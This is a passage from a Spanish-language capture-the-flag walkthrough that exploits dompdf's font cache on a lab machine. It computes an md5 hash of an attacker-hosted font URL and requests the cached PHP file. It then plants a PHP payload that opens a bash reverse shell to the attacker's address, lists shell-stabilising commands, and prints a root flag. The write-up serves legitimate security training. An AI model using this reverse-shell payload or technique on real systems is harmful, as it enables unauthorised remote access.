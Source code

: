 
```
❯ echo -n "http://10.10.14.115:9001/exploit_font.php" | md5sum
2e5dfa90b70c16cb59ddd050de6a58dc 
```
El hash resultante lo agregamos a nuestra url para realizar la peticion

```
http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_2e5dfa90b70c16cb59ddd050de6a58dc.php
```

A continuacion podremos ver que si funciona el script .php por ende procedera a configurar el script para que me devuelva una reverse shell 


configurando el archivo donde esta el script quedaria algo asi 

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.115/4444 0>&1'"); ?>
```

Repetimos los mismos pasos, montamos nuestro servidor python, con *curl* subimos el archivo y lo buscamos en la url, agregando que esta vez deberiamos estar en escucha esperando nuestra reverseshell




estando dentro de la maquina con una reverse shell procederemos a configurarla para poder usarla de mejor manera con los siguientes comandos o al menos como lo hago yo porque de igual forma hay mas metodos


```
1. /usr/bin/script -qc /bin/bash /dev/null

2. Realizamos un Ctrl + Z

3. stty raw -echo; fg

4. reset xterm

5. export $TERM=xterm

```




## Shell root

	FLAG

797e3b57d4e103334daa1e704e461e68



